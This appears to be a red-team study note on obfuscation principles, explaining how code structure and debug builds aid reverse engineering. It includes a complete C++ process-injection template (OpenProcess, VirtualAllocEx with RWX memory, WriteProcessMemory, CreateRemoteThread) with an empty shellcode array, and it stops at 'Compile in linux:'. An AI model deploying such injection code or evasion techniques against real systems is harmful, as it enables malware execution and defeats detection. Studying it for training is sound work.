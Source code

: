 ### Code Structure
---
Poor or predictable structure—whether in interpreted or compiled languages can lead to easier detection through static signatures or simplify reverse engineering for analyst.

Techniques such as **junk code injection** and **code reordering** are commonly used to increase the complexity of interpreted programs. Since interpreted code is more transparent (not compiled), analysts have direct access to the source logic. Without artificial obfuscation, they can easily isolate and analyze malicious functions
### File & Compilation Properties
---
Though often considered as minor detail, the compilation method could help analyst during reverse engineering, such as if a program is compiled as a [[cards/red-team/Obfuscation Principles Object Name Code\|debug build]], it may include symbol information that reveals **global variables**, **function names**, **entry points**, and more.

Strip this:

```powershell
#include "windows.h"
#include <iostream>
#include <string>
using namespace std;

int main(int argc, char* argv[])
{
	unsigned char shellcode[] = "";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;
	string leaked = "This was leaked in the strings";

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	cout << "Handle obtained for" << processHandle;
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	cout << "Buffer Created";
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	cout << "Process written with buffer" << remoteBuffer;
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);
	cout << "Closing handle" << processHandle;
	cout << leaked;

	return 0;
} 
```

Compile in linux:
